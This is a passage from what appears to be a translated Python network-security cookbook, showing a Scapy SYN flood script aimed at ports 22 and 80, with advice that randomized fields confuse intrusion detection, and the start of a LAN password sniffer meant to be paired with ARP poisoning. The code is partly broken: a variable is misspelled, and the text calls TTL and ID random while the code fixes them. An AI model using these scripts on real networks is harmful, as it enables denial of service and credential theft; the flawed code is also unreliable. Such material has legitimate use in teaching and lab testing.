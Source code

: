 4.  定义创建和发送 SYN 泛洪数据包的函数：

```
def synFlood(destination, iface):
    print ("Starting SYN Flood")       packet=IP(dst=destination,id=1111,ttl=99)/TCP(sport=RandShort(),dport=[22,80],seq=12345,ack=1000,window=1000,flags="S")/"HaX0r SVP"
    ans,unans=srloop(paket, iface=iface, inter=0.3,retry=2,timeout=4)
    ans.summary()
    unans.summary()  
```

这里，随机值用于设置数据包中的 TTL 和 ID。如果服务器中存在任何入侵检测系统，这将有助于混淆身份。此外，源端口是由`randshort()`函数创建的随机值。

以下是创建的示例数据包：

![](../images/00065.jpeg)

5.  现在发送数据包：

```
try:
    synFlood(destination_ip, iface)
except KeyboardInterrupt:
    print("Exiting.. ")
    sys.exit(0)  
```

6.  使用所需权限运行此脚本：

```
sudo python3 syn-flooding.py  
```

# 局域网上 Python 密码嗅探器

在前面的食谱中，我们已经学会了如何用 Scapy 嗅探数据包。现在我们可以使用 Scapy 嗅探和提取数据包中的内容。这可用于获取许多协议的详细信息。我们可以尝试从这些嗅探到的数据包中获取凭据。我们可以将此嗅探器与 ARP 中毒攻击绑定，以从网络上的其他机器获取详细信息。

# 怎么做。。。

以下是通过 LAN 编写密码嗅探器的步骤：

1.  创建一个`pass-sniffer.py`文件并在编辑器中打开它。
2.  导入所需的模块：

```
from scapy.all import *
from urllib import parse  
```

3.  现在声明接口的变量：

```
iface = "en0"
conf.verb=0  
```
